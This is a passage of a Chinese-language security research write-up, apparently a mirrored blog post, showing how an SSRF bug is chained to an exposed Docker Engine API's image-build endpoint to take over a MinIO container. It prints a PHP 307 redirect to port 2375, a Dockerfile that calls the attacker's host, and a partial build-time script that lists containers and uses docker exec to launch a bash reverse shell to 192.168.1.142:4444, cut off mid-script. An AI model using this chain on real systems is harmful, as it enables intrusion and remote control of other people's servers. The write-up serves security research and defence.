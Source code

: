 继续翻越Docker文档，我发现了另一个API，[Build an image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild)：

[![image-20210124232945843.png](/assets/PeiQi-Wiki/img/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.5026e621dd2a.png)](https://www.leavesongs.com/media/attachment/2021/01/30/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.png)

这个API的大部分参数是通过Query Parameters传输的，我们可以控制。阅读其中的选项，发现它可以接受一个名为`remote`的参数，其说明为：

> A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

[![image-20210124233853616.png](/assets/PeiQi-Wiki/img/db483d55-f1d5-4a3e-9d00-b53d9833d464.da172f0b4e32.png)](https://www.leavesongs.com/media/attachment/2021/01/30/db483d55-f1d5-4a3e-9d00-b53d9833d464.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
```
